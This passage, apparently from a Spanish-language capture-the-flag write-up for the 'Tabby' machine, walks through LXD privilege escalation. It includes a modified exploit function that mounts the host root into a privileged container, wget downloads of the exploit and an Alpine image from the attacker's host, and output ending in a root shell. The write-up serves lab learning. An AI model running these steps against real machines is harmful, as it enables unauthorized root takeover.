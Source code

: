 * Modifica el Exploit, elimina parte de la siguiente línea **&& lxc image list** de la función **createContainer**, así debería quedar esa función:
```bash
function createContainer(){
  lxc image import $filename --alias alpine && lxd init --auto
  echo -e "[*] Listing images...\n" 
  lxc init alpine privesc -c security.privileged=true
  lxc config device add privesc giveMeRoot disk source=/ path=/mnt/root recursive=true
  lxc start privesc
  lxc exec privesc sh
  cleanup
}
```

* Sube ambos archivos a la máquina víctima:
```bash
ash@tabby:/tmp$ wget http://Tu_IP/Lxd_Exploit.sh
--2023-05-12 23:04:57--  http://Tu_IP/Lxd_Exploit.sh
Connecting to Tu_IP:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1434 (1.4K) [text/x-sh]
Saving to: ‘Lxd_Exploit.sh’
Lxd_Exploit.sh                                    0%[                                                                                   
Lxd_Exploit.sh                                  100%[===========================>]   1.40K  --.-KB/s    in 0.001s  
2023-05-12 23:04:57 (2.45 MB/s) - ‘Lxd_Exploit.sh’ saved [1434/1434]
```
```
ash@tabby:/tmp$ wget http://Tu_IP/alpine-v3.18-x86_64-20230512_1700.tar.gz
--2023-05-12 23:09:09--  http://Tu_IP/alpine-v3.18-x86_64-20230512_1700.tar.gz
Connecting to Tu_IP:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3795739 (3.6M) [application/gzip]
Saving to: ‘alpine-v3.18-x86_64-20230512_1700.tar.gz’
...
```

* Mueve los archivos al directorio **/dev/shm**, esto porque sino nos dará problemas al usar el Exploit (no lo sabía hasta que lo use):
```bash
ash@tabby:/tmp$ mv Lxd_Exploit.sh alpine-v3.18-x86_64-20230512_1700.tar.gz /dev/shm
ash@tabby:/tmp$ cd /dev/shm
ash@tabby:/dev/shm$
```

* Exporta un **PATH** más grande para que funcione:
```bash
ash@tabby:/dev/shm$ export PATH=/root/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/bin/vendorl_perl:
```

* Activa el Exploit con el parámetro **-f** y agregando el comprimido:
```bash
ash@tabby:/dev/shm$ ./Lxd_Exploit.sh -f alpine-v3.18-x86_64-20230512_1700.tar.gz 
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first instance, try: lxc launch ubuntu:18.04
[*] Listing images...
Creating privesc
Device giveMeRoot added to privesc         
~ # whoami
root
```
